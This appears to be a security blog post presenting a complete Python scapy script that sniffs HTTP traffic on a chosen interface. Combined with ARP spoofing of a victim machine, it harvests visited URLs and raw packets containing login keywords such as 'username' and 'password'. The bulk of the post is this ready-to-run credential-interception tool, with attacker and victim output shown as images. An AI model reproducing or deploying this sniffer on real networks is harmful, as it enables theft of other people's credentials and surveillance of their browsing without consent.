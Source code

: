 ```yaml
---
title: A Credential/Url sniffer program
date: 2021-06-04 09:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to sniff Credentials.
---
```



<p align="left">
 <img src="https://i.kym-cdn.com/photos/images/facebook/001/651/265/287.jpg">
</p>

## This is a python script that sniffs for URL's/Login creds on a specific interface. When coupled with the previous ARPSpoof program this program can be used to remotely sniff traffic between the ARPSpoofed victims.

**In this example we ARP poison/spoof the connection between the target Windows system(192.168.0.117) and the gateway router(192.168.0.1) to remotely sniff any creds/urls visited by the victim.**

* Used the scapy_http module to interact with HTTP layers and filter them as needed.

* Implemented scapy.sniff() function to sniff traffic and filter with BPF's(Berkley Packet Filters).

* Byte object conversion to string using str() and decode() functions for cross-compatibility with python3.



### Code:

```python
#!/usr/bin/env python


import argparse 
import scapy.all as scapy
from scapy.layers import http
# pip install scapy_http

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--Interface", dest="interface", help="Host Interface to sniff on")
    options = parser.parse_args()
    if not options.interface:
        # code to handle error
        parser.error("[-] Please specify a valid Host Interface, use --help for info.")
    return options

def sniff(interface):
	# store --> storing packets in memory
	# prn --> callback function
	# filter --> filter according to BPF like TCP/port 80/ICMP
	scapy.sniff(iface=interface , store=False, prn=process_sniffed_packet)


def get_url(packet):
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	# Filter for raw content
		if packet.haslayer(scapy.Raw):
			load = str(packet[scapy.Raw].load)
			keywords = ["username", "user", "login", "password", "pass", "uname"]
			for keyword in keywords:
				if keyword in load:
					return load

def get_host_info(packet):
		if packet.haslayer(scapy.IP):
			return str(packet[scapy.IP].src)

					

def process_sniffed_packet(packet):
	# Filter based on http layer
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] Captured Urls: " + url.decode())
		login_info = get_login_info(packet)
		if login_info:
			host_info = get_host_info(packet)
			print("\n[+] Packet found from host: " + host_info)
			print("\n[+!] Possible Login Data: " + str(login_info) + "\n------------------------\n")
		

print("""
                                                        
|              o         ,---.     o,---.,---.          
|    ,---.,---..,---.    `---.,---..|__. |__. ,---.,---.
|    |   ||   |||   |        ||   |||    |    |---'|    
`---'`---'`---|``   '    `---'`   '``    `    `---'`    
          `---'                                         
                                                                                                
                                                         """)

options = get_arguments()
sniff(options.interface)
```

### Output:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/Python-Hax/main/Login_Sniffer/sniff.png?token=ATPNKE6VJYKIR2UA7GBRUDDBAHOOU)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/Python-Hax/main/Login_Sniffer/sniff2.png?token=ATPNKE2O7UMH6NZPEUAWOFTBAHOPK)
